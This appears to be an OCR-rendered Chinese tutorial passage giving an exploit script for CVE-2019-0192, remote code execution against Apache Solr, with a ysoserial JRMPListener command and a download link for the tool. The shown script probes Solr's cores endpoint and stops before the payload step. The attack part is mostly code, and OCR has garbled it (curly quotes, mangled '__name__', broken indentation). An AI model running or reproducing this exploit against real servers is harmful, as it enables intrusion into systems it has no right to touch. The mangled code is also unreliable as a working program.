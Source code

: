 下载[yoserial](http://wiki.0-sec.org/download/yoserial.zip),并将value修改为一下内容

```
remote = "http://172.18.0.5:8983"
ressource = ""
RHOST = "172.18.0.1"
RPORT = "1099" 
```

然后执行一下脚本

```
import base64
import requests
import subprocess
import signal
import sys
import os
import time
import re

remote = “[http://172.18.0.5:8983](http://172.18.0.5:8983)”

ressource = “”

RHOST = “172.18.0.1”

RPORT = “1099”

proxy = {

}

def exploit(command):

print("\n Run the malicious RMI server using yoserial by running this command:")

print("\n java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21" + command)

if **name** == “**main**”:

print("\nCVE-2019-0192 - Apache Solr RCE 5.0.0 to 5.5.5 and 6.0.0 to 6.6.5\n")

print("[+] Checking if ressource available =>", end=’ ')

```
burp0_url = remote + "/solr/admin/cores?wt=json"
r = requests.get(burp0_url, proxies=proxy, verify=False, allow_redirects=False)
if r.status_code == 200:
    if r.json()['status'] == "":
        print("KO")
        sys.exit()
    else:
        a = list(r.json()['status'].keys())
        ressource = "/solr/" + a[0] + "/config"
        print(ressource)
else:
    print("KO")
    sys.exit()
